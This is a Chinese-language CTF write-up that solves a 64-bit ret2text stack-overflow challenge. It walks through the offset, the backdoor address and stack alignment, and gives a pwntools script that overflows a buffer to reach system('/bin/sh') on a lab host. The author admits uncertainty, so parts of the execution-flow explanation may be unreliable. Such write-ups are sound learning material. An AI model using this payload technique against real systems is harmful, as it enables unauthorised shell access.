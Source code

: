 ```yaml
---
title: 64位
date: '2025-6-14 22:00'
categories:
  - PWN
  - ret2text 栈溢出
---
```

![](/images/{EDC60431-C7F0-4706-B7EE-C0C20022E216}.png)
![](/images/{89BB9CEE-D6C5-4168-8559-A837556C9144}.png)
![](/images/Pastedimage20250605190959.png)
buf 到栈底（ebp）的距离是：0xA，64 位程序加上 8 字节的栈底（rbp）
![](/images/Pastedimage20250605191047.png)
backdoor函数地址：0x400657
对于 32 位程序来说，现在就能打通了
但是这里是 64 位程序，需要处理堆栈平衡
#堆栈平衡：当我们在堆栈中进行堆栈的操作的时候，一定要保证在ret这条指令之前，esp指向的是我们压入栈中的地址，函数执行到ret执行之前，堆栈栈顶的地址一定要是call指令的下一个地址。
因此我们还需要找一个地址： lev 的地址或者该函数结束的地址（即 retn 的地址）
直接看 backdoor 函数的汇编代码：
![](/images/Pastedimage20250605192121.png)
lev 的地址：0x40065B
retn 的地址：0x40066D
==**特别注意：构造 payload 时将该地址放在该函数开始地址之前**==

```python
from pwn import *
context.log_level = 'debug'
p = remote('10.190.131.17', 55024)
payload = b'a'*(0xA+8) + p64(0x40065B) + p64(0x400657)
p.sendline(payload)
p.interactive()

#payload = b'a'*(0xA+8) + p64(0x40066D) + p64(0x400657) 可
#payload = b'a'*(0xA+8) + p64(0x40065B) 也可以啊不是很懂
```
![](/images/{BDC96406-6B8C-4852-90CC-38D5162440C3}.png)
1. `p64(0x40065B)` → 覆盖返回地址为`0x40065B`
2. `p64(0x400657)` → 在栈上放置后门函数地址

### 执行流程

当函数返回时：
1. 跳转到`0x40065B`（跳过函数开头的`push rbp; mov rbp, rsp`）
2. 执行`lea rdi, command` → 设置好`system`的参数
3. 执行`call _system` → 调用`system("/bin/sh")`
4. 执行`pop rbp` → 弹出栈顶值到RBP（此时栈顶是`0x400657`）
5. 执行`retn` → 弹出栈顶值`0x400657`到RIP，跳转到后门函数开头
    

### 为什么要这样跳转两次？

1. **避免栈对齐问题**：64位系统要求调用函数时栈指针16字节对齐
    - 直接跳转到`0x40065B`时，栈指针可能未对齐
    - 第二次跳转到函数开头（`0x400657`）会执行`push rbp`，使栈对齐
2. **确保参数正确设置**：
    - 第一次跳转确保`rdi`正确设置为`"/bin/sh"`
    - 第二次跳转执行完整的`system`调用












